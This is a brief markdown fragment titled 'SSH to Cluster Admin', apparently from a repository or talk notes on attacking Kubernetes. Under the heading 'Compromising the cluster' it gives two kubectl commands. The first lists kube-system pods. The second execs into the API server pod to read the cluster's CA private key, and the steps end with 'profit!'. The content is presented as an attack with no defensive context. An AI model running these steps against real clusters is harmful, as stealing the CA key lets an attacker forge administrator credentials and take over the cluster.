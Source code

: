# SSH to Cluster Admin

### Compromising the cluster

1. `kubectl get po -n kube-system` will get the pod list for kube-system
2. `kubectl -n kube-system exec [API_SERVER_POD] -- cat /etc/kubernetes/pki/ca.key`
3. profit!
